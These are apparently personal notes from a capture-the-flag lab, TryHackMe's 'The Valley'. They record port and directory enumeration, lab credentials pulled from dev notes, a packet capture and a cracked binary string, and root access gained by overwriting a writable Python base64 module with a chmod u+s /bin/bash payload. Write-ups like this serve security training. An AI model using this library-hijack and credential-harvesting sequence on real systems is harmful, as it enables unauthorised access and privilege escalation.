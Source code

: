# Info

## IP = $IP

## Creds
- valleyDev:ph0t0s1234
- siemDev:california
- valley:liberty123

# Ports

## 22
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|   256 429e2ff63e5adb51996271c48c223ebb (ECDSA)
|_  256 2ea0a56cd983e0016cb98a609b638672 (ED25519)
```

## 80
```
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

### Web Exploiting
- Sell images

### URLs
- http://$IP/pricing/pricing.html
- http://$IP/static/18
- http://$IP/gallery/gallery.html
- _static_ has a id...

### `gobuster` on _http://$IP/static_
- http://$IP/static/00
```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

### checking new dir
- _http://$IP/dev1243224123123/_
- login page
- in _dev.js_ file, I found another path
    ```
        if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    ```
    - /dev1243224123123/devNotes37370.txt
    ```
    dev notes for ftp server:
    -stop reusing credentials
    -check for any vulnerabilies
    -stay up to date on patching
    -change ftp port to normal port
    ```

## Searching for _FTP server_
- `nmap -p- -T5 $IP`
- port is the devNotes number (37370)

## 37370
- 3 wireshark files
- in _siemHTTP2_
```
uname=valleyDev&psw=ph0t0s1234&remember=on
``` 
- creds for login via `ssh`


# PrivEsc

## in _/var/www/html/dev1243224123123/old;js_
```
const users = {
  "john": {
    username: "john",
    password: "replace",
    email: "john@example.com",
    age: 25,
    country: "USA"
  },
  "jane": {
    username: "jane",
    password: "replace",
    email: "jane@example.com",
    age: 30,
    country: "Canada"
  },
  "bob": {
    username: "bob",
    password: "replace",
    email: "bob@example.com",
    age: 40,
    country: "UK"
  }
};
```

## looking for _/home/valleyAuthenticator_
- transfering to attacker's machine
```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/TheValley]
└─$ strings valleyAuthenticator | grep -i pass -B 15 -A 15
p9dJ
kx!S
;B@l
~`g{
xpbT
A [3    <
?ATs
-^;x&
e6722920bab2326f8217e4
```

- _https://crackstation.net/_ for _e6722920bab2326f8217e4_: `liberty123`

## after changing for `valley`'s account
- interesting file: _photosEncrypt.py_, owned by root
- import _base64_ is a module that is writeable...
```
valley@valley:~$ ls -la /usr/lib/python3.8/base64.py 
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
```
- write this file to:
```python
#! /usr/bin/python3.8

import os
os.system('chmod u+s /bin/bash') 
```
```bash
valley@valley:~/Desktop$ python3 /photos/script/photosEncrypt.py
chmod: changing permissions of '/bin/bash': Operation not permitted
Hello world!
Traceback (most recent call last):
  File "/photos/script/photosEncrypt.py", line 18, in <module>
    with open(output_path, "wb") as output_file:
PermissionError: [Errno 13] Permission denied: '/photos/photoVault/p1.enc'
Error in sys.excepthook:
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/apport_python_hook.py", line 72, in apport_excepthook
    from apport.fileutils import likely_packaged, get_recent_crashes
  File "/usr/lib/python3/dist-packages/apport/__init__.py", line 5, in <module>
    from apport.report import Report
  File "/usr/lib/python3/dist-packages/apport/report.py", line 21, in <module>
    from urllib.request import urlopen
  File "/usr/lib/python3.8/urllib/request.py", line 88, in <module>
    import http.client
  File "/usr/lib/python3.8/http/client.py", line 71, in <module>
    import email.parser
  File "/usr/lib/python3.8/email/parser.py", line 12, in <module>
    from email.feedparser import FeedParser, BytesFeedParser
  File "/usr/lib/python3.8/email/feedparser.py", line 27, in <module>
    from email._policybase import compat32
  File "/usr/lib/python3.8/email/_policybase.py", line 7, in <module>
    from email import header
  File "/usr/lib/python3.8/email/header.py", line 20, in <module>
    from email import charset as _charset
  File "/usr/lib/python3.8/email/charset.py", line 18, in <module>
    from email.encoders import encode_7or8bit
  File "/usr/lib/python3.8/email/encoders.py", line 15, in <module>
    from base64 import encodebytes as _bencode
ImportError: cannot import name 'encodebytes' from 'base64' (/usr/lib/python3.8/base64.py)

Original exception was:
Traceback (most recent call last):
  File "/photos/script/photosEncrypt.py", line 18, in <module>
    with open(output_path, "wb") as output_file:
PermissionError: [Errno 13] Permission denied: '/photos/photoVault/p1.enc'

valley@valley:~/Desktop$ /bin/bash -p
bash-5.0# whoami
root
```